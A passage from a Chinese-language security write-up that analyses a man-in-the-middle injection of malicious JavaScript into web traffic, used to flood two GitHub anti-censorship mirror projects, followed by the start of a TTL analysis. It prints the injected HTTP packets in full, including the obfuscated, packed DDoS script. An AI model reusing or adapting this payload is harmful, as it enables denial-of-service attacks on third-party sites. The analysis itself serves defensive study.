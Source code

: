 注入后的恶意脚本是张这个样子的

![enter image description here](http://drops.javaweb.org/uploads/images/e2f6d8f1f208ada95c367e755a49e8eac34aaea9.jpg)

注入后的响应每次的表现都是一样的，注入的三个数据包是下面这个样子的。

**_Injected packet #1:_**

```
HTTP/1.1 200 OK
Server: Apache
Connection: close
Content-Type: text/javascript
Content-Length: 1130

```

**_Injected packet #2:_**

```
eval(function(p,a,c,k,e,r){e=function(c){return(c<a?\'\':e(parseInt(c/a)))+((c=c%a)>35?String.fromCharCode(c+29):c.toString(36))};if(!\'\'.replace(/^/,String)){while(c--)r[e(c)]=k[c][/c]||e(c);k=[function(e){return r[e]}];e=function(){return\'\\\\w+\'};c=1};while(c--)if(k[c][/c])p=p.replace(new RegExp(\'\\\\b\'+e(c)+\'\\\\b\',\'g\'),k[c][/c]);return p}(\'l.k("<5 p=\\\'r://H.B.9/8/2.0.0/8.C.t\\\'>\\\\h/5>");!J.K&&l.k("<5 p=\\\'r://L.8.9/8-T.t\\\'>\\\\h/5>");j=(6 4).c();7 g=0;3 i(){7 a=6 4;V 4.Z(a.10(),a.w(),a.x(),a.11(),a.y(),a.z())/A}d=["m://n.9/E","m://n.9/F-G"];o=d.I;3 e(){7 a=i()%o;q(d[a])}3 q(a){7 b;$.M({N:a,O:"5",P:Q,R:!0,S:3(){s=(6 4).c()},U:3(){f=(6 4).c();b=W.X(f-s);Y>f-j&&(u(b),g+=1)}})}3 u(a){v("e()",a)}v("e()",D);\',62,64,\'|||function|Date|script|new|var|jquery|com|||getTime|url_array|r_send2|responseTime|count|x3c|unixtime|startime|write|document|https|github|NUM|src|get|http|requestTime|js|r_send|setTimeout|getMonth|getDay|getMinutes|getSeconds|1E3|baidu|min|2E3|greatfire|cn|nytimes|libs|length|window|jQuery|code|ajax|url|dataType|timeou

```

**_Injected packet #3:_**

```
t|1E4|cache|beforeSend|latest|complete|return|Math|floor|3E5|UTC|getFullYear|getHours'.split('|'),0,{}))

```

恶意的js是经过混淆的，只需要一些简单的反混淆就可以得到源码。

![enter image description here](http://drops.javaweb.org/uploads/images/23e884b40251579166a53682dc32558276fbcb3d.jpg)

其中可以看到，两个目标url为 github.com/greatfire和github.com/cn-nytimes 这两个均为一个用于规避(GFW)的镜像站点。

0x02 TTL Analysis
=================

* * *

Time-To-Live (TTL) 分析是一种非常有效的手段用于进行中间人攻击的分析，我们用这种方法在之前对于 iCloud, Yahoo, Google和GitHub的攻击上进行分析并且取得了不错的结果。

这次攻击github一个有趣的地方在于，攻击者修改数据包的IP TTL值来致使难以定位恶意数据包的注入点。我们使用Tshark来输出Source-IP, Destination-IP, TCP-Flags和IP-TTL，请看下面箭头记号
